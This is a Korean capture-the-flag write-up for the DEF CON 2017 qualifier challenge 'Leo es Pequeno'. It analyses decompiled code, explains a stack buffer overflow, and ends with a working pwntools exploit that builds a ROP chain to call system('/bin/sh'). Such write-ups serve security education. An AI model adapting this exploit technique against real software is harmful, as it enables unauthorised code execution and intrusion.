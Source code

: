 # DEF CON CTF Qualifier 2017: Leo es Pequeno

**write-up by [kimtruth](https://github.com/kimtruth)**

**Category:** Pwnable

**Description:**

> You boys like Mexico?!
>
> leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me 61111
>
> Files: [leo](https://github.com/kimtruth/CTF-write-up/raw/master/DEF%20CON%20CTF%20Qualifier%202017/Leo%20es%20Pequeno/leo)

## [Step 1] 파일 형식 판정

```c
signed __int64 __fastcall categorize(_BYTE *input, int a2)
{
  signed __int64 result; // rax@25
  int table[256][2]; // [sp+10h] [bp-820h]@2
  unsigned int maxFreqChar; // [sp+814h] [bp-1Ch]@1
  unsigned int minFreqChar; // [sp+818h] [bp-18h]@1
  unsigned int unusedCnt; // [sp+81Ch] [bp-14h]@1
  unsigned int asciiCount; // [sp+820h] [bp-10h]@1
  unsigned int minFreq; // [sp+824h] [bp-Ch]@1
  unsigned int maxFreq; // [sp+828h] [bp-8h]@1
  int i; // [sp+82Ch] [bp-4h]@1

  maxFreq = 0;
  minFreq = -1;
  asciiCount = 0;
  unusedCnt = 0;
  minFreqChar = 511;
  maxFreqChar = 0;
  for ( i = 0; i <= 255; ++i )
  {
    table[i][0] = i;
    table[i][1] = 0;
  }
  for ( i = 0; i < a2; ++i )
    ++table[input[i]][1];                       // ascii frequency analysis
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] > maxFreq )
      maxFreq = table[i][1];
    if ( table[i][1] < minFreq )
      minFreq = table[i][1];
    asciiCount += table[i][1];                  // asciiCount : 사용된 ascii값 종류
  }
  asciiCount >>= 8;
  sub_40185E((_DWORD *)table, 256);             // sort
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] )
    {
      if ( table[i][0] < minFreqChar )
        minFreqChar = table[i][0];
      if ( table[i][0] > maxFreqChar )
        maxFreqChar = table[i][0];
    }
    else
    {
      ++unusedCnt;
    }
  }
  if ( unusedCnt > 4 || 10 * asciiCount <= maxFreq )
  {
    if ( maxFreqChar > 0x7F || minFreqChar <= 8 )
    {
      if ( minFreq && 10 * asciiCount < maxFreq )
      {
        result = 100LL;                         // Its an executable?  Let's see what 'file' says...
      }
      else if ( minFreq || 2 * asciiCount >= maxFreq )  // 1. minFreqChar <= 8   && 10 * asciiCount == maxFreq
                                                        // 2. maxFreqChar > 0x7f && 10 * asciiCount == maxFreq 
      {
        result = 22LL;                          // This doesn't match my patterns.  Checking...
      }
      else
      {
        result = 25LL;                          // I guess its binary data. Let's see what 'file' says...
      }
    }
    else if ( table[255][0] == 32 )
    {
      result = 49LL;                            // This is ASCII text.
    }
    else
    {
      result = 50LL;                            // This is ASCII data.
    }
  }
  else
  {
    result = 2LL;
  }
  return result;
}
```

먼저 조건식을 분석하여 `This doesn't match my patterns. Checking...`이 나오게 했다.
이유는 그냥.. 뭔가 의심가는 부분이였고 다른 부분이 공격가능한지 몰랐었다.

## [Step 2] 공격 가능성

먼저 Checking...한다고 하면서 call하는 함수는 heap에서 코드가 실행이 된다.

```
   0xab9000:	push   rbp
   0xab9001:	mov    rbp,rsp
   0xab9004:	mov    QWORD PTR [rbp-0x28],rdi
   0xab9008:	mov    DWORD PTR [rbp-0x2c],esi
   0xab900b:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab900e:	mov    edx,eax
   0xab9010:	shr    edx,0x1f
   0xab9013:	add    eax,edx
   0xab9015:	sar    eax,1
   0xab9017:	add    eax,0x1
   0xab901a:	mov    DWORD PTR [rbp-0x8],eax
   0xab901d:	mov    DWORD PTR [rbp-0x4],0x11
   0xab9024:	mov    DWORD PTR [rbp-0x4],0x0
   0xab902b:	jmp    0xab9062
   0xab902d:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab9030:	mov    edx,eax
   0xab9032:	shr    edx,0x1f
   0xab9035:	add    eax,edx
   0xab9037:	sar    eax,1
   0xab9039:	add    eax,0x1
   0xab903c:	cmp    eax,DWORD PTR [rbp-0x8]
   0xab903f:	je     0xab9043
   0xab9041:	jmp    0xab906b
   0xab9043:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9046:	movsxd rdx,eax
   0xab9049:	mov    rax,QWORD PTR [rbp-0x28]
   0xab904d:	add    rax,rdx
   0xab9050:	movzx  eax,BYTE PTR [rax]
   0xab9053:	mov    edx,eax
   0xab9055:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9058:	cdqe   
   0xab905a:	mov    BYTE PTR [rbp+rax*1-0x20],dl
   0xab905e:	add    DWORD PTR [rbp-0x4],0x1
   0xab9062:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9065:	cmp    eax,DWORD PTR [rbp-0x2c]
   0xab9068:	jl     0xab902d
   0xab906a:	nop
   0xab906b:	pop    rbp
   0xab906c:	ret    
```

그냥 한번 귀찮으니 hexray를 돌려봤다.


```c
int __cdecl main(_BYTE *s, int num, const char **envp)
{
  int result; // eax@2
  char v4[24]; // [sp+Ch] [bp-20h]@3
  int v5; // [sp+24h] [bp-8h]@1
  int i; // [sp+28h] [bp-4h]@1

  v5 = num / 2 + 1;
  for ( i = 0; ; ++i )
  {
    result = i;
    if ( i >= num )
      break;
    result = num / 2 + 1;
    if ( result != v5 )
      break;
    v4[i] = s[i];
  }
  return result;
}
```
우리가 입력한 문자열을 어느 배열에 그대로 복붙을 하고 있다.

근데 일단 우리가 입력 가능한 문자가 16000자 였는데 그 배열이 `rbp-0x20`에 위치해 있다. 

그렇다면 return address 조작이 가능할 것이다.

하지만 `rbp-0x8`를 주의해야 한다. 

`rbp-0x8`에는 기존의 내용인 `8001`이 있어야 한다. 또한 `rbp-0x4`에 `0x1c`를 넣어 줘야 하는데 

그 이유는 `i`가 `0x1c`일 때 `rbp-0x4`에 값이 대입되기 때문이다.


## [Step 3] Exploit

`This doesn't match my patterns.  Checking...`가 뜨게 하기 위해서 620개의 빈도를 가지는 문자를 맞춰준다.
```python
#-*- coding:utf-8 -*-
from pwn import *
#r = remote('leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me', '61111')
r = process('./leo')
print pidof(r)

paylod = ''
paylod += p32(8001) * 7 # [rbp - 0x20] ~ [rbp - 0x8]
paylod += p32(0x1c) 	# [rbp - 0x4]
paylod += p64(0x0) # rbp, 아무거나 
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0) #fd
paylod += p64(0x402701) # pop rsi pop r15 ret
paylod += p64(0x0604188) # bss
paylod += p64(0xaaaaaaaa) # junk
paylod += p64(0x401090) # read@plt
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0x0604188) # bss
paylod += p64(0x0400FD0) # system@plt


# for "This doesn't match my patterns.  Checking..." just padding
paylod += chr(255) * 620

for i in range(0, 254):
	paylod += chr(i) * 60

paylod += chr(254) * (16000 - len(paylod)) # for 16,000bytes

print len(paylod)

r.send(paylod)
r.send("/bin/sh\x00\n")

r.interactive()
```

